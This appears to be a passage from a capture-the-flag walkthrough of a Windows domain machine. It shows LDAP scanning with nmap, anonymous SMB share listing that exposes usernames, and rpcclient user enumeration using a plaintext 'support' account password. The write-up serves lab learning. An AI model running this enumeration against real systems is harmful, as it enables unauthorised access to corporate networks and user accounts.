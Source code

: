 ```bash
```
Even default nmap scripts didn't give much info:
```bash
$ nmap -p 389 --script ldap* `IP`
```

## SMB
```bash
$ smbclient -L `IP`
Enter SMBC4R3T4K3R\root's password:
dsf
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        forensic        Disk      Forensic / Audit share.
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        profiles$       Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```
Anonymous login is possible, we get listing of ``profiles$`` share, which seems to contain potential users.
```bash
$ smbclient -N //`IP`/profiles$
smb: \> ls
  .                                   D        0  Wed Jun  3 22:17:12 2020
  ..                                  D        0  Wed Jun  3 22:17:12 2020
  AAlleni                             D        0  Wed Jun  3 22:17:11 2020
  ABarteski                           D        0  Wed Jun  3 22:17:11 2020
  ABekesz                             D        0  Wed Jun  3 22:17:11 2020
  ABenzies                            D        0  Wed Jun  3 22:17:11 2020
  ABiemiller                          D        0  Wed Jun  3 22:17:11 2020

[...snip...]

  ZAlatti                             D        0  Wed Jun  3 22:17:12 2020
  ZKrenselewski                       D        0  Wed Jun  3 22:17:12 2020
  ZMalaab                             D        0  Wed Jun  3 22:17:12 2020
  ZMiick                              D        0  Wed Jun  3 22:17:12 2020
  ZScozzari                           D        0  Wed Jun  3 22:17:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 22:17:12 2020
  ZWausik                             D        0  Wed Jun  3 22:17:12 2020
```

# Foothold
## RPC 
Using `support` account credentials for RPC we get list of some users.
```bash
$ rpcclient -U 'support%#00^BlackKnight' `IP` -c "enumdomusers" | grep -vi blackfield
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[audit2020] rid:[0x44f]
user:[support] rid:[0x450]
user:[svc_backup] rid:[0x585]
user:[lydericlefebvre] rid:[0x586]
```
